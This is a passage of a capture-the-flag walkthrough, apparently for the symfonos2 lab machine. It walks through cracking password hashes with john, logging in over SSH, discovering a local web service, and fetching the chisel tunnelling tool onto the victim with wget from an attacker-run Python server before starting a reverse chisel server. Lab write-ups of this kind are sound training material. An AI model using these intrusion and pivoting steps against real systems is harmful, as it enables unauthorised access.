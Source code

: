 After check it, we can try to crack the hashes with john


![NinPic]({{ '/assets/img/symfonos2/20240218131102.png' | relative_url }}){: .center }


````sh
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
`````

After a while we can see that we only found one password

![TenPic]({{ '/assets/img/symfonos2/20240218131257.png' | relative_url }}){: .center }


If we try the password between the different users, we can see that corresponds to aeolus.

````sh
ssh aeolus@10.0.0.37
`````

Once logged in, we start fuzzing the system. After a while we can see that there is a service running on port 8080. As netstat is not installed we can use *ss -tan* to show the TCP info.

If we try to connect with netcat to the service we will see that it is a HTTP site.

````sh
ss -tan // This will display the TCP information in the system
nc localhost 8080
<anything>

HTTP/1.1
`````

So lest try to watch the content bringing it to our browser using chisel.
To do that, first we have to download it from [here](https://github.com/jpillora/chisel/releases) to our machine.

Once done, we have to transfer it to the victime machine, to do that, we will be using Python, dping it from our machine.

````py
python3 -m http.server 80
`````

- -m run library module as a script, in this case http.server
- 80 is the port where we are running it

In the victim machine we can use wget to download it:

````sh
wget <your IP>/chisel
chmod +x chisel
`````
![11Pic]({{ '/assets/img/symfonos2/20240223193046.png' | relative_url }}){: .center }


First of alll, we are going to run this command in our machine:

````sh
./chisel server --reverse --port 9999
`````
